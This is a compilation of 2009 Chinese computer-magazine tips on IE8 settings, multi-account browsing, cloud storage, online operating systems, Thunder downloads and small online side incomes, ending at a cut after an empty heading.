首先从http://work.newhua.com/cfan/200916/EasyListIE8.zip下载拦截广告的数据文件，解压后得到的是一个XML文件。接着按上面的方法进入“InPrivate筛选设置”对话窗口，选中“自动阻止”，再点击“高级设置”打开管理加载项窗口，确保在“InPrivate筛选”选项卡中，点击“导入”导入前面所得的XML文件，确定就可以了。

为了确保以后开启IE8后，自动选中InPrivate筛选功能而无需我们每次都手工操作，可对注册表做一些小修改：启动注册表编辑器，进入[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Safety\PrivacIE]分支，将右侧StartMode（如果没有就新建一个DWORD值）项设置为1。

好了，现在再用IE8上网冲浪，是不是觉得网络清爽了许多。

(文/一页)

## 不用装插件，IE8照样穿马甲

相信不少人碰到过这样的问题：登录某网站（如搜狐）的邮箱后，再登录同网站的另一个邮箱，那么先前的邮箱就会要求重新登录，即两个邮箱无法同时使用。同样，在开心网中想使用另外一个马甲同时登录，就必须退出原先登录的账户。

以上问题，实际上是因为浏览器的小甜饼（cookie）捣的鬼。使用IE8可以摆平它。启动IE8之后，先登录第一个账户，然后按Alt键激活菜单栏，选择“文件→新建会话”，打开一个新的IE窗口，此时就可以使用第二个账户登录了。如果有第三个账户，可再次选择菜单“文件→新建会话”新建IE窗口，然后登录新账户即可。以此类推，可以继续使用更多的账户登录。

之所以可以使用多个账户登录，是因为新建会话生成的IE窗口，不会与原来的IE窗口共用cookie，所以对之前登录的账户就不会产生干扰了。

### 扩展：为新建会话创建快捷方式

每次从菜单中创建新会话窗口比较麻烦，我们可以为“新建会话”创建一个快捷方式：右击“开始→所有程序”中的Internet Explorer，选择“发送到→桌面快捷方式”为IE8创建一个快捷方式；右击此快捷方式，选择“属性”，在出现的对话框“目标”中，将IE启动程序路径的后面加上“ -nomerge”，单击“确定”即可。以后使用该快捷方式启动IE8，就可以同时登录相同网站的多个账户了。

(江苏/康华)

## 闲事管到微软头上，纳米机器人偷入SkyDrive

很多朋友都有自己的纳米盘，网上用来共享文件非常方便。而微软新推出的网盘SkyDrive，也着实让“米人”们眼馋，毕竟它有高达25GB的免费存储空间啊。不过每次都需要通过网页http://skydrive.live.com/访问SkyDrive非常不便，其实利用最新版本的纳米机器人，我们可以直接向SkyDrive快速上传文件了。

首先从http://www.namipan.com/download.html下载安装最新版本的纳米机器人，然后访问http://www.namipan.com/uc.php登录纳米盘（如果没有纳米盘账号的话，请按照提示完成注册），自动跳转到账号管理页面后，输入MSN账户名称、密码完成绑定。

接着运行纳米机器人，使用注册的纳米盘账户登录，打开“选择文件上传”对话框，可以看到增加了一个名为“上传到SkyDrive的文件列表”框，将需要上传到SkyDrive的文件拖曳到这里即可。纳米机器人新版本开始支持文件拖曳，操作起来更加方便了。

最后单击“上传”即可。以后，我们仍然可以在http://skydrive.live.com/管理上传到这里的文件，凡是通过纳米机器人上传的文件，都会被保存在名为NamipanPublic的文件夹下。而要是访问http://www.namipan.com/uc.php，则会发现上传的文件被保存在SkyDrive的“公开空间→默认目录”类别下。同样可以在这里进行文件管理，非常方便。

(文/王临)

## WeFi圈出你的无线王国

### 自动找出周边无线

首先从http://www.wefi.com网站下载并安装WeFi软件，安装WeFi后它会自动接管系统的无线管理器，自动搜索附近的无线热点并尝试连接。

WeFi会将搜索到的无线热点进行分类排列，默认情况下自动连接无需验证密码的信号强度最好的那个热点。在Locked（加锁）中排列的是加密的无线热点，如果知道密码，可以单击无线热点的名称，再点击下方的连接图标，在弹出的小窗口中输入密码，然后单击Access（访问）按钮即可连接。

- 小提示：
- 如果WeFi未能自动连接无线热点，可单击界面下方的Auto Connect off（关闭自动连接）按钮，使其变成Auto Connect on（自动连接）即可。

### 地图上标出我的无线

使用WeFi连接上无线网络后，可以在地图上标出自己所在的位置，从而让其他的朋友在地图上能找到你的无线热点。

在WeFi界面中，单击“Not logged in→New user”（未登录→新用户），注册后登录，这时即可点击Map it（标示热点）按钮，WeFi会自动调用浏览器进入地图页面并定位你当前的位置，双击位置标志，在弹出的Is this your Wi-Fi location?（这是你的当前无线位置吗）悬浮提示框中，选择第一项然后单击Go按钮即可。这时又会弹出Edit Spot（编辑热点）窗口，填写无线热点的信息，最后单击OK按钮。这样你就完成了一个无线热点的地图标注工作，单击热点，在浮动提示中可以看到你录入的热点信息。

小编有话说：无意中搜索了一下New York（纽约）的无线热点信息，真是令人惊叹。我不禁想，如果我们每个人都能将自己的无线热点共享出来，要不了多久，相信我们也能做到随时随地的无线上网了。

(文/越野苍狼)

## 陌生人邂逅在网上

最近在好友的QQ空间上看到一个聊天室，在里面可以与来访的任何人畅所欲言。研究一番发现，他使用的是CFan上曾介绍过的闪聊（http://www.shanliao.com），不过配置起来稍有不同。

进入闪聊主页注册并登录后，单击页面上的“申请房间”，按提示操作获取聊天房间。闪聊提供的聊天室，有纯代码形式的，也有Flash形式的。前者可以添加到博客中，Flash聊天室则可以添加到QQ空间中，单击“Flash文件地址”后面的“复制”按钮，复制Flash聊天室的地址以备用。

接下来登录自己的QQ空间，单击页面右上角的“自定义”，再点击“模块→新建模块”，在出现的对话框中选择“Flash模块”，再在新窗口中输入“模块标题”（如：QQ空间聊天室），并将前面复制的网址粘贴到Flash动画地址中，Flash聊天室的宽和高分别设置为640、580（单位：像素），最后单击“确认”即可将Flash聊天室加入到空间中。添加后可以根据实际情况调整聊天室的位置及大小，最后单击“保存”完成空间设置。

当有人访问QQ空间时，只要在聊天室的发言处单击，按提示输入自己的昵称进入聊天室即可随心所欲地聊天了。

- 小提示：
- 不想让陌生人知道你的MSN号码，可是因为需要又不得不接受陌生人的交谈请求，这时该怎么办？MSN在线通解决了这个问题。首先打开http://im.live.cn/immer/，单击页面最下方的“我要试试”，按提示登录你的MSN账号，点击“创建HTML”，在打开的页面中根据需要设置在线MSN的窗口样式，完成后，复制下方自动生成的HTML代码，放到自己网站或博客中就可以了。这样，任何人浏览你的博客，都可以与你即时聊天而并不知晓你的MSN账户，并且彼此不用互为好友。

(文/剑锋)

## 不仅是模仿秀，在线电脑各有绝活

操作系统是我们使用电脑时的必备平台, 不过对于喜欢在网吧上网或者经常在外出差的朋友来说, 网吧或者宾馆电脑可能没有自己需要的软件。这时该怎么办呢? 别着急, 利用免费的在线操作系统, 想要什么功能就有什么功能, 绝对可以满足你的移动需求。

### 小知识：什么是在线操作系统?

在线操作系统即基于网络并通过浏览器来实现的虚拟操作系统。用户通过浏览器即可以在这个操作系统上进行应用程序的操作, 这些应用程序实际就是一些网络服务, 一般无需在本地安装即可使用。在线操作系统大多数仿Windows的界面和操作习惯, 我们可以非常快地上手使用。

### 实战1：音乐随身听
#### ——使用千脑随处听歌

千脑 (http://www.qiannao.com/) 是一款完全中文化的在线操作系统。与众不同的是它提供在线软件定制安装, 我们可以根据自己的需要在这个系统中安装软件。比如, 对于音乐爱好者它提供了多款在线音乐播放器的安装。

第一步：登录千脑网站主页, 点击右上方“注册千脑”, 简单输入自己的Email地址并设置一个千脑密码即可快速完成注册。注册完成, 即可获取500MB免费网络空间, 域名一般为http://你的用户名.qiannao.com, 接着点击“登录在线电脑”即可进入虚拟的操作系统了。

第二步：进入千脑操作系统后, 点击“开始→在线软件中心”, 在打开的在线软件列表中切换到左侧“多媒体类别”, 然后选择右侧窗格的Mediamaster, 单击“安装”, 几秒内就安装好这个播放器。返回千脑桌面刷新一下, 就可以看到桌面MeTrachs的快捷方式, 双击后打开播放器网页按提示注册为用户, 接着在打开的页面单击Upload上传自己喜欢的歌曲 (可以直接输入在线音乐文件地址), 就可以播放欣赏了。

第三步：以后不管走到哪里, 我们只要登录自己的千脑操作系统, 启动桌面的播放器, 然后选择自己喜欢的音乐播放即可。

### 小提示:
当然作为一个在线操作系统, 千脑的功能远不止这些, 我们可以上传文件和好友共享, 或者在桌面建立自己的网址快捷方式, 设置自己的桌面等, 具体使用和windows XP极其类似。

### 实战2：IM随处聊
#### ——使用G.ho.st在线聊天

很多喜欢聊天的朋友在网吧使用电脑时, 经常会发现网吧电脑没有安装自己需要的IM软件。也有的朋友是因为单位不让安装IM之类的聊天软件, 或者网管干脆屏蔽了IM软件的端口。当然无绝人之路, G.ho.st在线操作系统集成了我们常用的IM软件, 方便我们在任何能联网的电脑上聊天。因为在线操作系统是通过浏览器操作, 所以网管也不可能屏蔽掉。

打开http://g.ho.st/?language=%20zh并注册为G.ho.st用户, 登录后就可以使用这个操作系统了。如果要使用MSN聊天, 运行桌面上的“IloveIM”, 然后在打开的配置窗口中选中MSN, 单击“为这个服务添加一个新的登录”, 按提示输入MSN账号和密码, 单击测试登录信息, 验证成功后单击“保存”。

以后在任何可以联网的电脑上登录G.ho.st, 运行“IloveIM”后在打开的窗口选择自己的MSN账号登录, 成功登录后就可以在此和好友聊天了。

当然, G.ho.st功能远不止这些, 它还提供邮件、办公套件、同步备份、浏览器等组件, 我们几乎可以把它作为Windows XP在线版来使用。

### 实战3：在线办公无极限
#### ——Eyeos在线办公

对于经常出差在外的朋友来说, 他们经常要处理一些文档。如果宾馆的电脑恰好没有安装Office套件, 这就会给文档处理带来很多不便。Eyeos提供的在线办公套件可以解决这些人的难题。

登录http://eyeos.org/?section=home&lang=zh-cn, 单击Create a free account (创建一个免费账户) 注册为用户并登录。

如果要启动Word组件, 可单击桌面上方的“Office→Word prosseor”, 启动程序后就可以非常方便地在其中编辑或者创建文档了, 文档编辑完成直接单击“保存”, 保存在网站服务器上。如果需要打开本地Word文档, 可以将文档上传到服务器上后再打开编辑。此外, Eyeos还提供日历、联系人数据、RSS订阅、FTP上传等服务, 大大方便了我们在线办公。

### 实战4：在线编辑照片
#### ——在线使用Glide OS

出门在外, 朋友们可能会拍摄许多照片, 想对照片进行一些简单的处理, 可是宾馆电脑又没有安装数码照片处理软件。此时我们就可以使用Glide OS提供的在线编辑照片组件。

打开http://www.glideos.com/, 单击Register注册为Glide OS用户, 并选择一款自己喜欢的操作系统 (提供苹果、Windows XP、Vista等多种风格)。

成功登录Glide OS后运行桌面的Photo edit (照片编辑) 组件, 在打开的窗口单击“File→Upload” (文件→上传), 上传需要编辑的照片。或者运行桌面的Glide HD, 在打开的窗口中选择Photo, 然后将本机照片上传到这个文件夹中。再在照片编辑窗口单击“File→Open” (文件→打开), 可以直接打开已经上传的照片。

打开照片后, Glide OS在右侧提供多个编辑组件, 如编辑裁剪、滤镜特效等, 我们只要根据自己需要选择相应的组件即可。修改完成后可以直接保存在服务器上, 也可以下载到本机。当然, Glide OS还有设置系统界面、上传共享文件、程序管理等功能。

怎么样, 这些在线操作系统是不是功能强大而且操作简便? 最后我们总结一下各个操作系统的特点, 供大家参考 (见下表)。

| 名称 | 免费容量 | 访问速度 (ADSL测试) | 系统界面 | 应用程序 |
| :--- | :--- | :--- | :--- | :--- |
| 千脑 | 500MB | 快，完全打开2秒左右 | 类Windows XP界面带客户端版本，无开始菜单 | 提供聊天、听歌、在线收藏夹等功能，但都是以外部网页链接方式实现。 |
| G.ho.st | 1GB | 快，完全打开4秒左右 | 类Windows XP界面带开始菜单，可自定义桌面背景，提供资源管理器功能。 | 提供办公、娱乐、网页浏览、电子邮件、聊天、图像浏览等丰富组件。 |
| Eyeos | 1GB | 较慢，完全打开10秒 | 类Ubuntu Linux界面无开始菜单，功能菜单位于桌面上方。 | 提供常用办公套件、日历、RSS阅读、联系人数据等组件。 |
| Glide OS | 2GB | 一般，完全打开8秒 | 类MAC OS界面主题，桌面使用类似苹果系统设计，引入个人配置文件概念。 | 提供在线硬盘管理、办公套件、图片处理、IM聊天、邮件等服务组件。 |

### 小编有话说:
以上的操作系统虽然各有特色, 不过也有许多功能重叠的地方, 介绍一款就可以了, 为什么要介绍好几个? 呵呵, 其实在线系统不用安装, 我们不用担心它们会占用我们的硬盘空间, 也不用担心它会扰乱本机的文件系统, 用一个和用几个没有太多区别。而且, 多用一个在线操作系统, 还能多一些网络空间, 何乐而不为。

(文/平淡)

## 像人一样思索的搜索引擎

当前的搜索引擎还不够智能, 搜索某个关键字后, 它给出的是一堆链接, 而不管这些内容有没有用。所以现在大家都在忙着开发第三代智能搜索引擎, 其中比较有名的就是号称“谷歌杀手”的Wolfram Alpha。

“C E G Bb D A”, 这些字母是什么意思? 如果用谷歌、百度进行搜索, 找到的是一堆没太大意义的网页。那么让我们打开http://www.wolframalpha.com, 同样输入上面的关键词搜索, 得到的则是详细答案。原来这几个字母是音符, 答案中还标出了它们在五线谱上的位置及在钢琴上的具体键位。别着急, 点击Play sound (播放声音), 还能听到声音呢。觉得这个答案很有用, 那就点击下面的“PDF”将它保存为电子书, 很方便吧。

### 不妨一试 更有意义的搜索
Wolfram Alpha虽然不支持中文, 但是如果希望搜索结果更有效率, 更有价值, 不妨试试用英文搜索一下。有时候我们需要查找过往时候的资料, 比如为了学术论文或小说写作的需要, 想知道2000年时北京的天气情况, 这时可在Wolfram Alpha中输入“weather beijing 2000”搜索, 很快就可以找出2000年时北京的平均气温及气温趋势图等资料, 够神奇的吧。

### 小知识:
Wolfram Alpha的工作原理, 实际上是预先建立起庞大的知识库, 当我们搜索时, 它通过智能分析, 挑选出最接近的答案呈现给我们。谷歌显然也预感到了威胁, 所以它们也紧跟着推出Google Squared (http://www.google.com/squared), 这也是一个基于知识库的搜索引擎, 不过效果没有Wolfram Alpha好。

(文/流言)

## 三维世界，看尽天下美图

想看图到哪去? 当然是网上了。谷歌、百度, 几乎没有搜不到的图片。不过, 网上能搜到的图片虽然多, 看起来却并不方便, 一个一个地点击链接, 多麻烦。好了, 别抱怨了, “3D看”特意前来为君解忧。

3D看实际是一款网络看图软件, 打开http://www.3dkan.com/即可免费下载安装。启动软件后, 可看到软件集成了百度、谷歌、搜狗等多个图片搜索引擎, 点选一个之后, 在文本框中输入关键词 (如“黄山”), 如果对图片大小有要求则可点击“全部图片”下拉按钮选择大、中、小等选项, 最后点击“搜索”即可。

软件很快以影视墙的效果为我们展示搜索到的图片, 下边有滚动条可以前后拖动, 还可以用幻灯的方式来演示。当发现中意的图片时, 点击它即可放大显示, 保存图片, 设置为桌面, 复制链接等功能按钮。操作完毕, 可点击“图片墙”返回, 或者点击“主页”返回软件主界面。

除了浏览网络图片外, 3D看同样可用作本机的图片查看器, 在左侧选择图片文件位置即可, 使用影视墙和幻灯效果, 看起图片来感觉爽极了。更妙的是, 3D看本身对网络图片做了很多整理, 比如许多人想看漫画, 在软件主界面, 可以直接在“漫画”栏目中点选即可 (比如网上较多的火影忍者、名侦探柯南等)。怎么样, 朋友们还不赶紧去体验一把。

(文/流言)

140 电脑爱好者 合订本·2009

# 你该知道的迅雷的4件事

迅雷是很多朋友都在使用的主力下载工具，如果你希望自己在使用迅雷时获得更为爽快的体验，那么一定不要忘记相关的设置。这里以最新的5.9.7版本为例，介绍几则比较重要的设置技巧。

## 技巧1：任务栏缩略图也能控制迅雷

如果是在Windows 7下使用迅雷，由于默认设置下会使用Aero Peek预览桌面，除了获得名为跳转列表的便捷功能之外，我们还可以在活动任务栏缩略图中直接控制迅雷。这里可以显示下载进度，也可以直接控制下载任务，包括新建任务、开始所有任务、暂停所有任务等，方便多了。

## 技巧2：快捷提交离线任务

我们知道，自从5.9.6.1018版本开始，迅雷已经在客户端中集成了“离线下载”的功能。提交离线下载任务之后，可以指令迅雷的专用服务器7×24小时不间断下载相关的资源，然后再从专用服务器下载回本机，从而获得稳定、高速的下载速度。

不过，如果每次都从“我的应用”下执行离线下载任务，比较麻烦。如果你注意的话，会发现“正在下载”列表中同样增加了“离线下载”的选项，直接单击“离线下载”链接，在随后弹出的对话框中进行确认即可。下载完成之后，单击“下载到本地”按钮即可将其从专用服务器下载回本地。

- 小提示：
    - 离线下载主要是会员才有的功能，非会员看着此功能而不能用，是不是很郁闷？那就移除此项吧：打开“配置面板→任务默认属性”窗口，在右侧窗格中勾选“关闭下载任务扩展栏”复选框，确认即可。
    - 非会员也可以通过抢号的形式获得离线下载功能，本刊第17期《喝茶去，下载就让迅雷去代劳吧》一文有介绍，有兴趣的朋友可以参考。

## 技巧3：使用专属下载通道

会员用户除了离线下载之外，还可以使用会员专属的下载通道，从而提高下载效率。开始下载后，会员通道如果可用，“会员下载”会显示为可点击状态，点击之后系统自动测速并给出测速结果，再次确认即可。如果与会员下载通道的连接状态检测为“拥挤”，则建议不要使用。

## 技巧4：监控网络流量

默认设置下，迅雷的流量监控功能并没有被启用，请打开“应用管理器”窗口，切换到“添加新应用”选项卡，在这里选择添加“迅雷流量监控”，完成初始化之后会自动监控上传、下载的流量（见图）。这里以不同颜色的线条显示网卡实际的上传和下载总速度，以及迅雷的上传及下载速度。点击其中的“迅雷网络设置”，可以对迅雷的速度快速调整，以实现不同环境下的需要（比如白天要减小迅雷的流量以免影响其他工作，晚上则可以设置为全速下载）。



- 网络PK台：
    - 网络下载软件中，以迅雷和快车的用户最广。两方面的粉丝经常争论不休，比如：快车的说迅雷太占系统资源，迅雷的说快车的下载信息不够丰富，莫衷一是。那么你是怎么看的呢？欢迎到CFan论坛讨论（http://bbs.cfan.com.cn/thread-987745-1-1.html）。

(江苏/王志军)

# 每天上网一小时，自己赚钱养QQ

看着QQ里的好友呢称一个一个地变红，很是羡慕，而且几个死党还经常发“魔法表情”（会员功能）来骚扰我。没钱的我该怎么办？功夫不负有心人，我找到了三个简单而轻松的赚钱方法，特意写出来和大家分享。虽然赚得不多，但每月养几个QQ服务是绰绰有余的，而且连买《电脑爱好者》杂志的钱都有了。

## 赚钱大法一：玩游戏也赚钱

现在很多游戏都有赚钱任务，比如天龙八部的打图和跑商，诛仙的“国家宝藏”任务、魔兽的日常任务、征途的拉镖车等，这些都可以轻松赚取游戏币。有了游戏币，就可以在5173（www.5173.com/）网上出售了。

在5173网上卖游戏币，推荐使用小额交易的寄售方式。把游戏币放在一个小号上，小号账户一定设置好密保卡。发布寄售信息时将账号密码输入发布系统，一旦游戏币有人购买，5173网的工作人员将直接登录小号账户进行交易，省去繁复的交流沟通。我们也用不着像淘宝一样整天在线等候买家光临。

- 第一步：首先注册一个5173的账户，注册好后登录网站，点击“我要卖”标签，在显示的页面中点击“发布小额商品点这里”按钮。
- 第二步：选择一下要卖出的游戏币所在的游戏、大区和服务器，选择“寄售方式”，完成后点击下面的“已阅读以下规则，继续”按钮。
- 第三步：接下来就是输入商品的信息了，先输入一些寄售账户的有关信息，如密保卡、游戏账号、密码、仓库密码等，接着输入出售游戏币的信息，如游戏币的数量、价格、件数等，还有一些交易选项，这个可以根据自己的实际情况选择，完成后点击“确认无误，提交”按钮即可。

接下来就完全交给5173网的客服来解决了，我们所要做的就是定期上5173网上去看看是否卖掉。如果卖掉了，钱会直接打到你的5173网上账户中，其中5173网会扣掉10%的交易手续费。

## 把钱变成QQ服务

这些钱怎样用来养QQ？其实可以直接在5173网上购买QQ服务，而且价格便宜，QQ会员、钻石只要8元一个月。

登录5173后点击导航中的“点卡交易→我要购买点卡”，选择“QQ增值服务”，接着选择需要购买的服务并选择“客服快充”，然后点击“立即购买”按钮。在显示的商品列表中，前面几个价格是最低的，点击商品标题进入商品信息页面，再点击下面的“立即购买”按钮。在交易页面输入你要充值的QQ号码、商品及个人信息等，完成后点击“确认无误，提交”。

在打开的页面中按提示支付订单，成功后，10分钟内就可以完成充值，然后再去确认一下，交易就算完成了，有点类似淘宝交易。

- 小提示：
    - 小号携带游戏币时，需注意很多游戏都有角色携带游戏币的上限设置，携带游戏币的多少和角色的等级有关，等级越高就可以携带越多的游戏币，如果超出了携带的上限，那多出的部分就会被系统吃掉，具体限额可以查询一下相应的游戏。

## 把钱变成《电脑爱好者》杂志

如果想把赚来的钱买《电脑爱好者》杂志，那就得把钱提出来，这需要在你的账户中设置银行卡信息。

进入“我的5173”后，点击左侧“修改和设置我的资料→修改个人与银行信息”，回答注册时设置的密保问题进入修改页面，按提示输入你的一些资料和银行卡信息。网站目前只支持工行、农行、建行和招行，完成后点击“提交”按钮就可以了。设置完毕，就可以进入“我的资金→我要提现”，按提示输入你要提现的金额，再设置一下支付密码，完成后点击“下一步”按钮就可以提现了。

收益分析：以天龙八部为例计算，里面的“惩凶打图”任务，一个小时可以打10~15张图，双开游戏客户端则可以打更多，每张图摆摊可以卖4~5金，一小时收益最少就是40金，按5173上面的价格，1金折合人民币在0.026~0.033之间，40金就是1元多，一个月下来也有30元，去除5173网上的10%交易手续费，最少可以赚27元。

- 小提示：
    - 提现时，尽量把几次交易的钱一起提，只要100元以内的提现，手续费都是一样的。
    - 提现时，推荐使用工商银行的卡，工商银行提现收取的手续费最低，只要0.9‰元，每笔业务最低0.9元，而其他几个银行的最低都要1元或者2元。

## 赚钱大法二：淘宝开店赚差价

淘宝上每天都有很多商机，比如一些信誉度高的卖游戏点卡的店铺，为什么他们的价格比别人高，也能把生意做得红红火火？除了信誉高外，关键一点就是他们有一批固定的买家。其实我们也可以做到。

- 第一步：首先要有自己的一个淘宝店铺，没有的朋友可以去淘宝网（www.taobao.com）上免费申请一个。注册好后还要进行实名认证，这个是开店必须的，手续都完成后就可以发布商品了。
- 第二步：要卖就从热门游戏的点卡开始，如征途、魔兽世界、梦幻西游等，每种游戏的点卡多发布几种面值的，这样不仅方便自己操作，也可以提高交易量。
- 第三步：对于点卡价格设置有一定的技巧，先在淘宝里进行搜索，如“梦幻西游 20元”，这样就可以搜索出该面值点卡的淘宝价格，再按价格从低到高进行排列一下，这样显示在最前面的就是价格最低的几个了，找几个点卡品种多、信用高的卖家添加为自己的旺旺好友，他们以后就是我们“拿货”的地方。
- 第四步：有了底价后就可以在自己的店铺里面发布点卡商品了，发布时可以去淘宝里参考一下别人的内容，或者直接复制过来也可以，价格可以根据自己的情况在底价的基础上稍微加点。

收益分析：在晚上，游戏点卡交易需求比较大，因为学生朋友白天还是以学业为主，很少上网。晚上挂上淘宝旺旺几个小时，如果每天有5笔生意，每笔生意净赚0.2元，一个月下来就有30元净利，除去养QQ的，多余的钱足以买《电脑爱好者》看了。这个只是最低的收益，如果做得时间久了，有了一定固定的客户，那就可以赚得更多。

## 赚钱大法三：代人发国际传真

发送国际传真，如果是在传真机上发送的话，要先开通国际长途后才可以发送，而且费用也很贵，最少都要几十元。其实网络上已经有了在线免费发传真的网站，如FaxZERO网站（www.faxzero.com），此网站支持DOC和PDF文件格式，单个文档不能超过10MB，一天免费传真两次（每次最多3页），会在传真页面上附带一些faxZERO的广告，仅限给美国和加拿大地区发送传真。

利用这些网站，我们可以去一些论坛或者QQ群里招揽生意，也可以给周围的朋友发送国际传真，我们只要收一点手工费即可。

- 小提示：
    - 如果你“业务”较多，万一显示不能发送的话，不妨多准备一些邮箱，也可以使用一下代理服务器，更换一下浏览器的IP地址。

收益分析：按发一次国际传真10元计算的话，一个月内只要帮别人发一次国际传真，就可以养QQ了。

怎么样？看了上面介绍的三个方法，是不是感觉互联网中赚钱的机会还是比较多的，只要我们多动脑筋，利用互联网来创业和赚钱还是很容易的。

(文/云端散步)

# 喝茶去，下载就让迅雷去代劳吧

有些单位的网络限制使用P2P下载，这时我们可以让迅雷离线下载，然后回到家中再从迅雷服务器高速下载回自己需要的资料。

打开http://daili.vip.xunlei.com/，用自己的迅雷账号登录，单击页面左侧“进入任务管理”，在这里先根据实际情况选择任务类型（普通任务、BT或是电驴任务）。

- 普通任务：输入所需下载文件的URL地址，存储目录会显示所在的专属代理下载服务器，“另存名称”会从下载地址中自动提取，当然也可以手工输入。
- BT任务：可以输入种子文件的URL地址，也可以上传本地的种子文件，代理下载服务器会首先解析种子文件。
- 电驴任务：输入电驴文件的URL地址。

最后单击“开始下载”即可，代理下载期间，你可以去做其他的事情，甚至可以关闭计算机，下载的事完全不用操心。

7天之内，我们可以在任何一台安装了迅雷的计算机中，通过浏览器访问http://daili.vip.xunlei.com/，登录后进入代理下载操作页面，选中已下载完成的任务，用迅雷“下载到本地”即可。

> 小提示：
> 这项服务，主要是面向迅雷会员的。不过非迅雷会员现在也可以免费体验了，注册（http://special.lixian.vip.xunlei.com/index_y.html?from=vipxt）并登录迅雷账号后，单击“点此登录使用离线下载”即可。不过非会员有许多限制，如有时会出现“名额已被抢光，请稍后再试”情况，申请成功后只有三天的试用时间等。

> 小提示：
> 注意，如果可用的专属硬盘空间小于要下载的文件，将无法创建该任务。由于“代理下载”功能尚处于体验阶段，因此只能同时下载一个任务，专属硬盘空间也只有1GB。

# 漂亮的网站Logo 随手“偷”

在浏览一些网站时，会发现它们的地址前面显示有代表该网站的Logo图标。如果收藏了该网址，在收藏夹中也能看到它（所以它又叫Favicon图标）。如果你对某网站的Favicon图标感兴趣，可通过名为Getfavicon的站点轻松获取。

在浏览器中打开Getfavicon主页（http://www.getfavicon.org/），输入你想获取图标的网站地址，再单击“get favicon”（获取收藏夹图标）按钮，很快会打开一个新页面，显示该图标的真实网址，右击保存图标即可。默认设置下，图标文件一般是ICO格式，如果想改变图标格式，可点击下面的“jpg”、“gif”，即可获取相应的转换后的图标文件了。

# 伊妹儿瘦身半分钟教程

平时我们写E-mail时，为了达到图文并茂的效果，会附带一些图片。不过图片如果太大，一是影响发送，对方收信和阅读也会很不方便。如果用专业软件来处理图片，则又有点费时费力，其实Outlook自身就带图片调整功能，通过它可以快速为图片瘦身。

启动Outlook 2007，点击工具栏“新建”按钮，打开新邮件撰写窗口。在“邮件”标签下，点击“添加”框中的“附加文件”按钮，插入需要随E-mail发送的图片文件。接着点击“添加”框右下角的扩展按钮，打开附加选项框，展开其下的“图片选项”，再点击“请选择图片大小”下拉按钮，就可以调整图片的大小了，有大中小三种，任君选择，本例选择小（448×386像素，约为明信片大小）。设置完毕，像平时一样填写收信人、邮件标题、正文等内容，最后发送就可以了。

另外还有一种方法，就是不要把图片当成附件，而是直接插入到邮件正文中。此时点击图片，再拖动图片四角的锚点，就可以随意调整大小了。不过通过这种方法缩小图片后，邮件文件的大小变化不是很明显，最好在调整好图片大小之后，点击标题栏上的“图片工具”展开图片编辑面板，点击“压缩图片”按钮，在弹出的对话框中勾选“仅应用于所选图片”，确定即可。这样处理后，压缩的比率会非常大，还可以在压缩图片对话框中，点击“选项”，选择一个较低的目标输出方式，会得到更大的压缩比。

> 小提示：
> ★上面的方法比较省事，而且不会修改原始图片。如果不嫌麻烦，也可以用Windows自带的“画图”工具对图片进行简单编辑。不过有不少人，不知道在画图中如何缩放图片，总是先框选图片后通过拖动选框来调整，很不方便。其实只要点击菜单“图像→拉伸/扭曲”，再设定水平和垂直的缩放百分比，确定即可。注意，水平和垂直的百分比最好一样，否则图像会变形。
> ★画图的功能较少，支持的图像格式也有限，想把照片编辑得更漂亮一些，一般人会想到Photoshop。其实，Photoshop也有在线版，无需安装软件即可使用，感觉还不错，网址：https://www.photoshop.com/。

# 图“说话”，一锅端 新QQ功能超会员

QQ2009 SP3的新鲜劲还没过，QQ2009 SP4又悄然而至，腾讯的效率是越来越高了。想要尝试的朋友，可以从http://dl_dir.qq.com/qqfile/qq/QQ2009/QQ2009SP4.exe直接下载获取。用过之后，我的感觉是QQ2009 SP4越来越贴心了。

## 实例1：文件夹直接发送不打包

以前给朋友传文件，同一个文件夹中的多个文件要单独一一发送，或者先将文件夹压缩成一个文件再发送，非常麻烦。QQ2009 SP4就不用这么繁琐了。

打开好友的聊天窗口，单击“传送文件”按钮旁的“▼”，选择“发送文件夹”，然后选择要发送的文件夹，确定即可。对方收到文件发送请求后，单击“另存为”即可接受保存文件夹。如果要发送多个文件夹，还可以一次性选中，然后直接拖放到聊天窗口中即可。不过要注意，文件夹不可以离线发送，必须两人同时在线，而且都使用的是SP4版本。

# Send To谷歌阅读器会飞的翅膀

谷歌在线阅读器（Google Reader），让我们能像查看电子邮件一样随时掌握所喜爱网站的最新信息。不过当看到一篇好文章想要共享给其他好友时，却发现非常麻烦。还好，谷歌阅读器新推出的Send To（发送到）功能，改变了这一现状。

目前Send To只能在英文版谷歌阅读器中实现，所以登录后，需点击“设置”把语言改为“英语-English”，接着点击Setting（设置）重新进入设置页面，就会发现多出“Send To”项，点击后看到它已经预置了多个共享网站的链接，如Delicious、Digg、Facebook、Twitter等，勾选自己想要的网站，此时点击Back to Google Reader（返回谷歌阅读器）返回后，会发现每篇文章的下面多出Send To项，点击之后选择某一共享网站，即可轻松共享了。

其实上面只是Send To的冰山一角，通过定制，还能让它做更多的事情。

## 实战1：网文快转PDF

有时想把查看的文章保存为PDF以方便保存，通过下面方法增强Send To，可以实现一键完成。在上文所说的Send To界面，点击Create a custom link（创建一个自定义链接），然后在Name（名称）中里填写“Save as PDF”，URL（网址）中填写“http://savepageaspdf.pdfonline.com/pdfonline/pdfonline.asp?cURL=${url}”（一个在线PDF制作服务），Icon URL（图标网址）中填写“http://www.adobe.com/lib/com.adobe/template/icon/pdf.gif”。最后点击Save（保存）即可。

以后在谷歌阅读器中阅读文章时，如果想把文章保存为PDF文档，只需点击“Send To→Save as PDF”，稍等片刻就可以得到保存为PDF的下载提示了。

## 实战2：文章轻松共享到豆瓣

在Send To里面，大部分是国外的分享网站，可能一些朋友不太适应。其实，按照一定的规则，可以添加自己想要分享的网站，这里以“豆瓣”为例。

Send To支持一些变量，如：${source}代表网文源地址，${title}代表网文标题，${url}代表网文地址，${short-url}支持短地址转向等。豆瓣的推荐链接为：http://www.douban.com/recommend/?url=**&title=**&v=1&n=1，这里的**分别指的是所要推荐文章的链接和标题，只要用上面所述的变量替代一下，就可以得到Send To能够识别的URL地址了：http://www.douban.com/recommend/?url=${url}&title=${title}&v=1&n=1。接下来填写此项的名称（假设为“共享到豆瓣”），及设置图标文件的地址（可省略），最后保存。以后，在谷歌阅读器中再遇到好文章，即可点击“Send To→共享到豆瓣”，将自动打开豆瓣的共享设置网页，填写推荐语，确定就可以了。豆瓣上的好友可以及时看到你推荐（共享）的文章了。

知道了这个原理，以后就可以在Send To中任意添加自己想要的内容了。

## 实例2：截图也要图文并茂

